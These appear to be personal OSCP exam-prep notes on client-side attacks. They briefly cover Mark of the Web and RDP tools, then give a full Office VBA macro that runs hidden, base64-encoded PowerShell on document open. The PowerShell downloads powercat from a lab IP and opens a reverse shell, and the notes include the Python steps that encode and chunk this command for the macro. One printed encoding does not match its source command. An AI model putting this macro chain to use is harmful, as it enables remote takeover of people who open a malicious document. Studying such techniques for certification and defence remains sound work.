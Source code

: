 ```yaml
---
aliases:
  - Target Reconnaissance
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - client_side_attacks
  - ms_office
  - office
  - exploit
author: Mehdi N Tehrani
creat_date: 2023-12-27
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```

# Mark of the Web
#mark_of_the_web #motw #windows
https://nolongerset.com/mark-of-the-web-details/
- file marked in windows when downloaded from the web
- zip file marked with motw, when unzipped the motw gets preserved if unzipped with Windows built-in tool. But 7zip files might not preserve motw. 
# Windows Remote Desktop
## Linux tools
#linux #rdp #remote_desktop
#rdesktop doesn't support NLA (Network Level Authentication) #nla
#xfreerdp supports NLA

# Office Macro
#macro #office #ms_office 
## reverse shell macro
```vb
Sub AutoOpen()
  MyMacro
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = "powershell.exe -nop -w hidden -e "
    
	Str = Str + "SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdA"
	Str = Str + "BlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBE"
	Str = Str + "AG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AH"
	Str = Str + "AAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADIAMQA2AC8A"
	Str = Str + "cABvAHcAZQByAGMAYQB0AC4AcABzADEAJwApADsAcABvAHcAZQ"
	Str = Str + "ByAGMAYQB0ACAALQBjACAAMQA5ADIALgAxADYAOAAuADQANQAu"
	Str = Str + "ADIAMQA2ACAALQBwACAANAA0ADQANAAgAC0AZQAgAHAAbwB3AG"
	Str = Str + "UAcgBzAGgAZQBsAGwA"
    
    CreateObject("Wscript.Shell").Run Str
End Sub
```

## components
### raw powershell command
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.216/powercat.ps1');powercat -c <ip> -p <port> -e powershell
```
### base64 encode powershell command in python
```python
import base64
cmd=b"IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.216/powercat.ps1');powercat -c 192.168.45.216 -p 7777 -e powershell"
cmd_b64=base64.b64encode(cmd)

b'SUVYKE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vMTkyLjE2OC4xMTkuMi9wb3dlcmNhdC5wczEnKTtwb3dlcmNhdCAtYyAxOTIuMTY4LjQ1LjIxNiAtcCA3Nzc3IC1lIHBvd2Vyc2hlbGw='
```

```python
n=50
for i in range (0, len(cmd_b64), n):
	print('Command = Command + "' + cmd_b64[i:i+n] + '"')

Command = Command + "SUVYKE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLk"
Command = Command + "Rvd25sb2FkU3RyaW5nKCdodHRwOi8vMTkyLjE2OC40NS4yMTYv"
Command = Command + "cG93ZXJjYXQucHMxJyk7cG93ZXJjYXQgLWMgMTkyLjE2OC40NS"
Command = Command + "4yMTYgLXAgNzc3NyAtZSBwb3dlcnNoZWxs"
```
